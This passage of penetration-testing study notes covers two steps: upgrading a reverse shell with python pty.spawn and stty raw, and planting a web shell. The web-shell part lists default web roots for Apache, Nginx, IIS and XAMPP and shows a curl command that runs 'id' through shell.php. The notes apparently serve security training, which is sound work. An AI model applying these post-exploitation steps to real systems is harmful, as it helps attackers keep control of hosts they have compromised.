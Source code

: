   - python/stty method (better)

  ```bash
  # In reverse shell
  $ python -c 'import pty; pty.spawn("/bin/bash")'	#usually good enough
  Ctrl-Z	# Go to my Kali
  
  # In Kali
  $ stty raw -echo
  $ fg	# Go to shell
  
  # In reverse shell
  $ reset
  $ export SHELL=bash
  $ export TERM=xterm-256color
  $ stty rows [] columns []
  ```

  

## Web Shell

- Write the shell in the appropriate language

- Upload it in the web root

  | Web Server | Default Webroot        |
  | ---------- | ---------------------- |
  | `Apache`   | /var/www/html/         |
  | `Nginx`    | /usr/local/nginx/html/ |
  | `IIS`      | c:\inetpub\wwwroot\    |
  | `XAMPP`    | C:\xampp\htdocs\       |

- Access with curl

  ```curl http://SERVER_IP:PORT/shell.php?cmd=id```
  
- `/usr/share/webshells/`



# General Knowledge
